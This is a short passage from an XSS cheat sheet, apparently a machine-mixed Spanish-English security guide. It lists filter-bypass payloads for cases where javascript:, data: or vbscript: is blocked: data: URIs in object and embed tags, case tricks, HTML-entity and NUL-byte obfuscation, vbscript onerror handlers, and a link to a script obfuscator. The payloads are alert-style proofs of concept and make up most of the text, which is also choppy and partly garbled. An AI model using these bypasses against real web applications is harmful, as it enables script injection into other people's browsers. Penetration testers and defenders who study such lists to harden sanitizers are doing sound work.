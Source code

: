 If **javascript:** is blocked:

```js
<object data="data:text/html,<script>alert(1)</script>">
<object data="data:text/html,base64,<base64 encoded>">
```

If **data:** is blocked:

```js
<embed code="DaTa:text/html,<script>alert(1)</script>">
<embed code="data&colon;text/html,<script>alert(1)</script>">
<embed code="data&#x003A;text/html,<script>alert(1)</script>">
<embed code="&#x64;&#x61;ta:text/html,<script>alert(1)</script>">
```

El **vbscript** pseudo-protocolo no es tan común, porque sólo se puede usar con IE.

* De IE11 in Edge, el vbscript ya no es compatible.

Cómo usar vbscript:

```js
<img src=a onerror="vbscript:msgbox 1"/> //works till IE8
<img src=b onerror="vbs:msgbox 2"/> //works till IE8
<img src=c onerror="vbs:alert(3)"/>   "//works till IE Edge
<img src=d onerror="vbscript:alert(4)"/>  "//works till IE Edge
```

Bypass vbscript:

```js
<img src=x onerror="vbscript&#x003A;alert(1)"/>    "
<img src=x onerror="vb&#x63;cript:alert(1)"/>       "

<img src=x onerror="v&#00;bs&#x00;cri pt:alert(1)"/> //using NUL bytes
```

Tool to obfuscate:

```js
http://dennisbabkin.com/screnc/
```

## Bypassing Sanitization

El más común es el código HTML como:

```js
< (&lt;)
> (&gt;)
```

### String Manipulations

Ejemplo:

```js
removing <script> tag
```

